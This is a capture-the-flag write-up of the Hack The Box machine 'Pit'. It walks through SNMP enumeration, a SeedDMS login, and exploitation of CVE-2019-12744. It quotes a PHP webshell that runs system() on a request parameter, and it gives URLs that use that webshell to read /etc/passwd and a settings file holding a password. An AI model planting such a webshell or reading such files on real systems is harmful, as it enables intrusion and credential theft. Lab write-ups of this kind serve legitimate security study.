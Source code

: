 # 1. WebPage-

![[Pasted image 20210619045941.png]]


# 2. Enumeration-
![[Pasted image 20210619050430.png]]

Searching for it on google tells that it is an server administrator tool.

### Tried to access the location we found from SNMP Enumeration-
### "/var/www/html/seeddms51x/seeddms"

We were able to access it using the DNS we found -

![[Pasted image 20210619051719.png]]


# 3. Login(dms-pit.htb)-

We were able to login using the name and password as michelle which we found in our SNMP enumeration-

```bash
.1.3.6.1.4.1.8072.1.3.2.4.1.2.10.109.111.110.105.116.111.114.105.110.103.28 = STRING: "michelle             user_u               s0
```

![[Pasted image 20210619052149.png]]

![[Pasted image 20210619052443.png]]

We got a version number-**SeedDMS 5.1.15**

# 4. SearchSploit-

```bash
root@napster:~/Documents/HTB/Pit# searchsploit seeddms
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
SeedDMS 5.1.18 - Persistent Cross-Site Scripting                                                                            | php/webapps/48324.txt
SeedDMS < 5.1.11 - 'out.GroupMgr.php' Cross-Site Scripting                                                                  | php/webapps/47024.txt
SeedDMS < 5.1.11 - 'out.UsrMgr.php' Cross-Site Scripting                                                                    | php/webapps/47023.txt
SeedDMS versions < 5.1.11 - Remote Command Execution                                                                        | php/webapps/47022.txt
```

No specified version exploit found but RCE was worth a try-

```bash
# Exploit Title: [Remote Command Execution through Unvalidated File Upload in SeedDMS versions <5.1.11]
# Google Dork: [NA]
# Date: [20-June-2019]
# Exploit Author: [Nimit Jain](https://www.linkedin.com/in/nimitiitk)(https://secfolks.blogspot.com)
# Vendor Homepage: [https://www.seeddms.org]
# Software Link: [https://sourceforge.net/projects/seeddms/files/]
# Version: [SeedDMS versions <5.1.11] (REQUIRED)
# Tested on: [NA]
# CVE : [CVE-2019-12744]

Exploit Steps:

Step 1: Login to the application and under any folder add a document.
Step 2: Choose the document as a simple php backdoor file or any backdoor/webshell could be used.

PHP Backdoor Code: 
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Step 3: Now after uploading the file check the document id corresponding to the document.
Step 4: Now go to example.com/data/1048576/"document_id"/1.php?cmd=cat+/etc/passwd to get the command response in browser.

Note: Here "data" and "1048576" are default folders where the uploaded files are getting saved.
```

# 5. Exploit-

![[Pasted image 20210619055047.png]]

![[Pasted image 20210619055227.png]]
#### view-source:http://dms-pit.htb/seeddms51x/data/1048576/31/1.php?cmd=cat+/var/www/html/seeddms51x/conf/settings.xml
![[Pasted image 20210619060540.png]]


#### Password- ied^ieY6xoquu

Now we will try the password with usernames admin/root/michelle user on “cockpit web console”-

# 6. Login (pit.htb)


![[Pasted image 20210619061306.png]]

Loggined as Michelle-

![[Pasted image 20210619061514.png]]

# 7. User.txt

![[Pasted image 20210619061753.png]]